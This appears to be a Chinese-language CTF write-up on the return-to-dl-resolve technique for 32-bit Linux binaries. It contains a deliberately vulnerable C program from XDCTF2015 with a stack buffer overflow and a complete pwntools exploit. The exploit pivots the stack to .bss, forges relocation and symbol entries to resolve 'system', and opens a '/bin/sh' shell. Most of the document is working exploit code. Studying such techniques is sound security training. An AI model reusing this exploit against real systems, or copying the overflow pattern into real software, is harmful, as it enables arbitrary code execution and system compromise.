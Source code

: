 # Return-to-dl-resolve
&#8195;参加大佬的讲解，非常非常的详细！！！这里简单总结为如下的内容，主要需要了解动态重定向的过程。其实感觉这样一步一步的fake，貌似还更容易理解<br>
1、通过栈溢出，构造rop，向bss段某位置写入数据<br>
2、将栈地址改向bss段<br>
3、写入正常的shellcode，使用write输出‘/bin/sh’（通过write plt）<br>
4、修改为通过plt 0，给出reloc的偏移<br>
5、构造假的重定向表，给出在动态链接符号表中的偏移<br>
6、构造假的dynsym，给出在字符串表中的偏移<br>
7、构造所需函数的字符串名字，改变参数<br>


## vuln code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

## exp

```
from pwn import *
import time,sys,binascii

elf_name = "./bof"
elf = ELF(elf_name)

io = process( elf_name )
gdb.attach(io, "b *0x08048535")

write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = 0x0804A020

bss_addr = 0x0804a040
stack_size = 0x800
bss_stage = bss_addr + stack_size

ppp_ret = 0x080485cc
pop_ebp_ret = 0x080485ce
leave_ret = 0x08048468
#write_offset = 0x28

payload1 = 'a' * 112
payload1 += p32(read_plt)
payload1 += p32(ppp_ret)
payload1 += p32(0)
payload1 += p32(bss_stage)
payload1 += p32(0x100)
payload1 += p32(pop_ebp_ret)
payload1 += p32(bss_stage)
payload1 += p32(leave_ret)
payload1 += 'a' * (0x100 - len(payload1))
io.send(payload1)

dynsym = 0x080481d8
dynstr = 0x08048278

plt_0 = 0x08048390  #objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
r_index = (bss_stage + 28) - rel_plt

align = (0x10 - (bss_stage + 36 - dynsym) & 0xf)
fake_sym_addr = bss_stage + 36 + align
sym_index = (fake_sym_addr - dynsym) / 0x10

r_offset = write_got
r_info = (sym_index << 8) | 0x7
fake_reloc = p32(r_offset) + p32(r_info)

str_addr = fake_sym_addr + 0x10
str_offset = str_addr - dynstr
fake_sym = p32(str_offset) + p32(0x0) + p32(0x0) + p32(0x12)


cmd = '/bin/sh'
payload2 = 'aaaa'
payload2 += p32(plt_0)
payload2 += p32(r_index)
payload2 += 'aaaa'
payload2 += p32(bss_stage + 0x80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'a' * align
payload2 += fake_sym
payload2 += 'system' + '\x00'
payload2 += 'a' * (0x80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'a' * (0x100 - len(payload2))

io.send(payload2)

io.interactive()

```

